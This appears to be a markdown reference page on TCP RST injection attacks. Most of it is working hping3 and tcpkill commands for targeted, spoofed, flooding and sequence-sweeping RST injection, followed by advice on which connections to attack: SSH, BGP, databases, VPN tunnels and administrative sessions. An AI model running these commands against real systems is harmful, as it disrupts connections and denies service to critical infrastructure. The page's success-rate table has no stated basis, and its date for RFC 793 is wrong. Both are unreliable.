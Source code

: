## 🔧 Attack Tools & Commands
- **hping3**: `hping3 -R -p 80 -s 12345 -M 1234567890 target`
- **Scapy**: Custom RST injection scripts
- **tcpkill**: `tcpkill -i eth0 host target_ip`
- **Netwox**: RST packet crafting
- **Ettercap**: Connection poisoning

### Manual Testing:
```bash
# Basic RST attack
hping3 -R -p 80 -s 12345 -M 1000000000 -c 1 target_ip

# RST flood attack
hping3 -R -p 80 --flood -M 1000000000 target_ip

# Targeted connection RST
hping3 -R -p 80 -s 443 -M $(tcpdump_seq_num) target_ip

# Bidirectional RST attack
hping3 -R -a client_ip -p 80 -s 12345 -M seq_num server_ip
hping3 -R -a server_ip -p 12345 -s 80 -M ack_num client_ip

# RST with window scanning
for seq in $(seq 1000000000 1000 1000100000); do
  hping3 -R -p 80 -s 12345 -M $seq -c 1 target_ip
done
```

## 💡 Historical Context
- **1985**: TCP RST mechanism defined in RFC 793
- **Early 2000s**: RST attacks used for censorship (Great Firewall)
- **2004**: BGP RST attacks demonstrated
- **Modern Era**: Used in nation-state surveillance

## 📊 RST Attack Effectiveness
| Target Type | Success Rate | Detection | Impact | Persistence |
|-------------|--------------|-----------|---------|-------------|
| HTTP Sessions | 85% | Medium | High | Low |
| SSH Connections | 90% | Low | Very High | Medium |
| BGP Sessions | 95% | Hard | Critical | High |
| Database Conns | 80% | Medium | High | Low |

## 🎯 Target Selection
Preferred targets:
- **Long-lived connections** (SSH, databases, BGP)
- **Critical services** with connection persistence
- **Encrypted sessions** to force re-authentication
- **Administrative connections** for access denial
- **VPN tunnels** for connectivity disruption
